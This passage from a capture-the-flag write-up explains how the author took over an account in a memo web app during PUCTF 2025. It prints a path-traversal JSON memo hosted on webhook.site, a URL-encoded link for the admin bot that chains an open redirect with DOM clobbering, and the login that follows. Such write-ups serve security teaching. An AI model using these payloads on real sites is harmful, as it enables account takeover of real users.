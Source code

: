 ## Exploitation

Now that we have a clear chain of vulnerabilities, we can takeover the author's account and read the flag memo!

- Host our own malicious JSON memo, where attribute `id` is `../username?foo=`, attribute `title` is `username=AAA[...]AAA`

```json
[{"id":"../username?foo=","title":"username=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA","body":"","approved":0,"visibility":1,"username":"anything"}]
```

To host this payload, I used [webhook.site](https://webhook.site/). You could use other services like [requestrepo.com](https://requestrepo.com/).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501195341.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501195436.png)

> Note: Remember to set CORS (Cross-Origin Resource Sharing) headers. Otherwise, your malicious memo won't get fetched. This is because the memo fetching is now cross-origin because of the open redirect.

- Send the following link to the bot

```
http://%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%64%69%74%3f%72%65%64%69%72%65%63%74%3d%68%74%74%70%73%3a%2f%2f%77%65%62%68%6f%6f%6b%2e%73%69%74%65%2f%64%31%66%65%34%39%61%65%2d%37%38%34%64%2d%34%61%34%37%2d%62%66%64%65%2d%34%34%63%63%30%32%39%62%62%62%38%32:@localhost:3000/approve?notice=%3c%61%20%68%72%65%66%20%69%64%3d%75%73%65%72%3e%3c%2f%61%3e
```

The first part of the URL encoded string is to clobber attribute `username`, so that it'll fetch our malicious memo via open redirect, which is this:

```
../../../../../edit?redirect=https://webhook.site/d1fe49ae-784d-4a47-bfde-44cc029bbb82
```

The second part of the URL encoded string is the DOM clobbering payload, where we clobber the `user` variable, which is this:

```html
<a href id=user></a>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501195902.png)

- Login as the author user

Now the author's username should be changed to `A * 72`, and we should be able to log in to that account with a random password:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501200418.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501200426.png)
